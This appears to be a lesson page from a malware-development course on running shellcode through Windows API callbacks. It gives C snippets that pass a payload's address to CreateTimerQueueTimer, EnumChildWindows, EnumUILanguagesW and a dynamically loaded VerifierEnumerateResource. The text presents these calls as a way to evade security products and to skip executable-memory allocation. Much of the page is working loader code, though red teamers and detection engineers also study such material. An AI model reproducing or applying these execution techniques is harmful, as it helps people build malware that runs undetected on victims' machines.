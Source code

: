 41. Callback Code Execution# [**41. Callback Code Execution**](https://maldevacademy.com/modules/41)

## **Callback Code Execution**

### **Introduction**

Callback functions are used to handle events or to perform an action when a condition is met. They are used in a variety of scenarios in the Windows operating system, including event handling, window management, and multithreading. Microsoft's definition of a callback function is as follows:

*A callback function is code within a managed application that helps an unmanaged DLL function complete a task. Calls to a callback function pass indirectly from a managed application, through a DLL function, and back to the managed implementation.*

Several ordinary Windows APIs possess the ability to execute payloads using callbacks. Using them provides a benefit against security solutions since these functions may appear benign and can potentially evade some security solutions.

### **Abusing Callback Functions**

Windows callbacks can be executed using a function pointer. To run the payload, the address of the payload must be passed instead of a valid callback function pointer. Callback Execution can replace the use of the `CreateThread` WinAPI and other thread-related techniques for payload execution. Additionally, there is no need to use the functions correctly by passing the appropriate parameters. The return value or functionality of these functions is not of any concern.

One important point about callback functions is that they only work in the local process address space and cannot be used to perform remote code injection techniques.

### **Sample Callback Functions**

The following functions are all capable of execution callback functions.

[**CreateTimerQueueTimer's**](https://learn.microsoft.com/en-us/windows/win32/api/threadpoollegacyapiset/nf-threadpoollegacyapiset-createtimerqueuetimer)**3rd parameter**


```
BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,      // here
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);

```
[**EnumChildWindows's**](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumchildwindows)**2nd parameter**


```
BOOL EnumChildWindows(
  [in, optional] HWND        hWndParent,
  [in]           WNDENUMPROC lpEnumFunc,    // here
  [in]           LPARAM      lParam
);

```
[**EnumUILanguagesW's**](https://learn.microsoft.com/en-us/windows/win32/api/winnls/nf-winnls-enumuilanguagesw)**1st parameter**


```
BOOL EnumUILanguagesW(
  [in] UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,     // here
  [in] DWORD                dwFlags,
  [in] LONG_PTR             lParam
);

```
[**VerifierEnumerateResource's**](https://learn.microsoft.com/en-us/windows/win32/api/avrfsdk/nf-avrfsdk-verifierenumerateresource)**4th parameter**


```
ULONG VerifierEnumerateResource(
  HANDLE                           Process,
  ULONG                            Flags,
  ULONG                            ResourceType,
  AVRF_RESOURCE_ENUMERATE_CALLBACK ResourceCallback,     // here
  PVOID                            EnumerationContext
);

```
The following sections will provide detailed explanations for each of these functions. The payload used in the code samples is stored in the `.text` section of the binary. This allows the shellcode to have the required `RX` memory permissions without having to allocate executable memory using `VirtualAlloc` or other memory allocation functions.

### **Using CreateTimerQueueTimer**

`CreateTimerQueueTimer` creates a new timer and adds it to the specified timer queue. The timer is specified using a callback function that is called when the timer expires. The callback function is executed by the thread that created the timer queue.

The snippet below runs the code located at `Payload` as a callback function.


```
HANDLE hTimer = NULL;

if (!CreateTimerQueueTimer(&hTimer, NULL, (WAITORTIMERCALLBACK)Payload, NULL, NULL, NULL, NULL)){
	printf("[!] CreateTimerQueueTimer Failed With Error : %d \n", GetLastError());
	return -1;
}

```
### **Using EnumChildWindows**

`EnumChildWindows` allows a program to enumerate the child windows of a parent window. It takes a parent window handle as an input and applies a user-defined callback function to each of the child windows, one at a time. The callback function is called for each child window, and it receives the child window handle and a user-defined value as parameters.

The snippet below runs the code located at `Payload` as a callback function.


```
	if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
		printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
		return -1;
	}

```
### **Using EnumUILanguagesW**

`EnumUILanguagesW` enumerates the user interface (UI) languages that are installed on the system. It takes a callback function as a parameter and applies the callback function to each UI language, one at a time. Note that any value instead of `MUI_LANGUAGE_NAME` flag still works.

The snippet below runs the code located at `Payload` as a callback function.


```
	if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
		printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError());
		return -1;
	}

```
### **Using VerifierEnumerateResource**

`VerifierEnumerateResource` is used to enumerate the resources in a specified module. Resources are data that are stored in a module (such as an executable or a dynamic-link library) and can be accessed by the module or by other modules at runtime. Examples of resources include strings, bitmaps, and dialog box templates.

`VerifierEnumerateResource` is exported from `verifier.dll`, therefore the module must be dynamically loaded using the `LoadLibrary` and `GetProcAddress` WinAPIs to access the function.

Note that if the `ResourceType` parameter is not equal to `AvrfResourceHeapAllocation` then the payload will not be executed. `AvrfResourceHeapAllocation` allows the function to enumerate heap allocation, including heap metadata blocks.


```
	HMODULE hModule = NULL;
	fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;

	hModule = LoadLibraryA("verifier.dll");
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}

	pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
	if (pVerifierEnumerateResource == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Must set the AvrfResourceHeapAllocation flag to run the payload
	pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);

```
### **Conclusion**

This module reviewed several callback functions and demonstrated their usage for payload execution. Callback functions are only beneficial when the payload is running in the memory address space of the local process.

Microsoft's documentation page can be searched to discover additional callback functions. Additionally, a [GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec) was created that contains a list of the most common callback functions.

